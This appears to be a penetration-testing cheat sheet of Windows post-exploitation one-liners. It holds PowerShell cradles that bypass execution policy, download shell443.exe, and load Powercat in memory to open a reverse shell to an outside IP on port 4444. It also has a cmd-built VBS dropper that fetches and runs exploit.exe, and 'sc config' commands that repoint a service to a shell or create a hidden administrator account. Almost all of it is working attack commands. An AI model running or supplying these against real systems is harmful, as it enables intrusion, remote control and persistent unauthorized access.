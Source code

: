 ## Powershell Usefull Cradles to Download File

```
powershell.exe -NoP -NonI -Exec Bypass IEX "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.117/shell443.exe','shell443.exe')"
```

## Powershell Usefull Cradles to Download Script to memory and Execute it

This Example will download Powercat to memory and execute a reverse shell using Powercat without touching the disk

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString("http://172.16.242.173/powercat.ps1"); powercat -c 172.16.242.173 -p 4444 -e cmd.exe
```

You can use this technique to download any script to memory and execute functions from it like Powerview also

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

## VBS Cradle to Download Transfer File and Execute it

Transfer exploit.exe from your kali server to the target server and execute it

```
cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs&@echo objXMLHTTP.open "GET","http://192.168.119.142/exploit.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLHTTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFile "exploit.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objADOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=Nothing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs&@echo objShell.Exec("exploit.exe")>>poc.vbs&cscript.exe poc.vbs"
```

## Reconfigure a service

Reconfigure Service:

```
sc config ServiceName depend= "" start= demand binpath= "C:\Inetpub\wwwroot\shell443.exe" obj= ".\LocalSystem" password= ""
sc config ServiceName binPath= "cmd /c net user haxxor haxxor123 /add && net localgroup Administrators haxxor /add && net localgroup 'Remote Desktop Users' haxxor /add"
```

## Open /Allow Ports in Firewall
Allow Ports 80, 443 and 4444 as Inbound and outbound rules in the firewall (needs admin priveleges)
